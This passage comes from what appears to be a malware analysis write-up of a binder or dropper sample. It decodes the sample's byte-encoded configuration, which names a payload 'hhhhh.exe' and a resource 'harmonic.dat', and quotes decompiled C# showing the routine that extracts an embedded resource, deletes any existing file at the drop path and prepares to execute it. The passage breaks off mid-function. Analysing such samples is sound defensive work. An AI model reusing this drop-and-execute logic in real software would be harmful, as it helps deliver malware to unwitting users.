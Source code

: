 What binaryReader does is read the first byte. This will tell us that it's parsing 6 variables. Then 0x01 will say that the next byte is 1 byte long and so on. This will parse it with a different programming language.

```
06 00 00 00 01 6B 01 62 02 64 66 02 61 64 02 73
^	     ^   ^  ^  ^  ^  ^  ^
	     |	 |  |  |  |  |__|_Chars df
|	     |	 |  |  |	 |_ Two chars
|	     |	 |  |  |_ char b
|_ 6 vars    |	 |  |_ One char 
	     |	 |_ char K
	     |_ One char
66 00 02 66 6E 09 68 68 68 68 68 2E 65 78 65 01 
65 01 79 03 72 5F 6B 0C 68 61 72 6D 6F 6E 69 63 
2E 64 61 74
```

This will give the output. To understand the configuration we've to check every function.

```
# Results

  k -> b
 df -> ad
 sf -> 
 fn -> hhhhh.exe
  e -> y
r_k -> harmonic.dat
```



##### execute()

if the **k** option is **b** then execute ExecuteBinder.

```C#
	private void Execute(Dictionary<string, string> options)
		{
			if (options["k"] == "b")
			{
				this.ExecuteBinder(options);
			}
```



##### ExecuteBinder()

This function is checking if a file exist in the file path returned and if it `options["e"]` is set to y to execute.

```C#
	private void ExecuteBinder(Dictionary<string, string> options)
		{
			string name = options["r_k"];
			byte[] array = this.ReadResources(name) as byte[];
			if (array == null)
			{
				return;
			}
			string text = this.ConstructPath(options);
			if (File.Exists(text))
			{
				try
				{
					File.Delete(text);
				}
				catch
```